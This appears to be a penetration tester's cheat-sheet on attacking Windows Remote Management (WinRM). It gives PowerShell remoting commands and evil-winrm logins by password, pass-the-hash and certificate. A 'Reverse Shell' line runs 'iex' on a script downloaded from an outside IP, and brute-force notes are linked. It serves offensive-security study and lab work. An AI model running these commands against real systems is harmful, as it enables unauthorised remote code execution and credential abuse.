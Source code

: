 ```yaml
---
Ports: 5985, 5986
Description: Is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.
---
```


>[!info]
> If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!). 

>[!warning]
>User have to be a member of `Remote Management Users`

# Windows

## Activate and test WinRM

```powershell
Enable-PSRemoting -Force  
Set-Item wsman:\localhost\client\trustedhosts *  

# Activate WinRM remotely
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"

# Test WinRM
Test-WSMan -computername [computer]
```

## Execute commands

```powershell
Invoke-Command -computername computer-name.domain.tld -ScriptBlock {ipconfig /all} \[-credential DOMAIN\\username\]
Invoke-Command -ComputerName <computername> -ScriptBLock ${function:enumeration} [-ArgumentList "arguments"] 

# Scripts
Invoke-Command -ComputerName <computername> -FilePath C:\path\to\script\file [-credential CSCOU\jarrieta]

# Reverse Shell
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}

# Get a PS Session
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local [-Credential username]
```

---

# Linux

## Exploitation

### Brute Force

- [CrackMapExec](../Tools/CrackMapExec.md#Brute-Force)

### Credentials Required

- [CrackMapExec (Execute Commands)](../Tools/CrackMapExec.md#Execute%20Commands)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)

```bash
# Creds
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>

# PtH
evil-winrm -u <username> -H <Hash> -i <IP>

# Private / Public Key (.pfx/.crt/.key)
evil-winrm -c cert.crt -k priv.key -i 10.10.11.152 -u -p password -S
```